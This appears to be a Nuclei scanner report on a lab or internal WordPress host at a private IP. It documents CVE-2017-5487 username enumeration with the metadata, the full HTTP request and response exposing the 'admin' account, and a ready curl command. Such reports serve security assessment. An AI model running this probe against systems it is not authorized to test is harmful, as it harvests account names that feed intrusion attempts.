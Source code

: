 ### WordPress Core < 4.7.1 - Username Enumeration (CVE-2017-5487) found on http://192.168.120.174
---
**Details**: **CVE-2017-5487**  matched at http://192.168.120.174

**Protocol**: HTTP

**Full URL**: http://192.168.120.174/?rest_route=/wp/v2/users/

**Timestamp**: Thu May 26 22:28:03 +0100 BST 2022

**Template Information**

| Key | Value |
|---|---|
| Name | WordPress Core < 4.7.1 - Username Enumeration |
| Authors | manas_harsh, daffainfo, geeknik |
| Tags | cve, cve2017, wordpress |
| Severity | medium |
| Description | WordPress Core < 4.7.1 is susceptible to user enumeration because it does not properly restrict listings of post authors via wp-includes/rest-api/endpoints/class-wp-rest-users-controller.php in the REST API, which allows remote attackers to obtain sensitive information via a wp-json/wp/v2/users request. |
| CVSS-Metrics | [CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N](https://www.first.org/cvss/calculator/3.0#CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N) |
| CWE-ID | [CWE-200](https://cwe.mitre.org/data/definitions/200.html) |
| CVE-ID | [CVE-2017-5487](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2017-5487) |
| CVSS-Score | 5.30 |

**Request**
```http
GET /?rest_route=/wp/v2/users/ HTTP/1.1
Host: 192.168.120.174
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36
Connection: close
Accept: */*
Accept-Language: en
Accept-Encoding: gzip


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Content-Length: 527
Access-Control-Allow-Headers: Authorization, Content-Type
Access-Control-Expose-Headers: X-WP-Total, X-WP-TotalPages
Allow: GET
Content-Type: application/json; charset=UTF-8
Date: Thu, 26 May 2022 21:28:03 GMT
Link: <http:/index.php?rest_route=/>; rel="https://api.w.org/"
Server: Apache/2.4.38 (Debian)
X-Content-Type-Options: nosniff
X-Robots-Tag: noindex
X-Wp-Total: 1
X-Wp-Totalpages: 1

[{"id":1,"name":"admin","url":"","description":"","link":"http:\/?author=1","slug":"admin","avatar_urls":{"24":"http:\/\/1.gravatar.com\/avatar\/d1712f7bcdf8be9c3254396a2af323c0?s=24&d=mm&r=g","48":"http:\/\/1.gravatar.com\/avatar\/d1712f7bcdf8be9c3254396a2af323c0?s=48&d=mm&r=g","96":"http:\/\/1.gravatar.com\/avatar\/d1712f7bcdf8be9c3254396a2af323c0?s=96&d=mm&r=g"},"meta":[],"_links":{"self":[{"href":"http:\/index.php?rest_route=\/wp\/v2\/users\/1"}],"collection":[{"href":"http:\/index.php?rest_route=\/wp\/v2\/users"}]}}]
```

**Extra Information**

**Extracted results**:

- admin


References: 
- https://www.exploit-db.com/exploits/41497
- https://nvd.nist.gov/vuln/detail/cve-2017-5487
- https://www.wordfence.com/blog/2016/12/wordfence-blocks-username-harvesting-via-new-rest-api-wp-4-7/
- https://wordpress.org/news/2017/01/wordpress-4-7-1-security-and-maintenance-release/

**CURL Command**
```
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Language: en' -H 'User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2224.3 Safari/537.36' 'http://192.168.120.174/?rest_route=/wp/v2/users/'
```
---
Generated by [Nuclei 2.7.1](https://github.com/projectdiscovery/nuclei)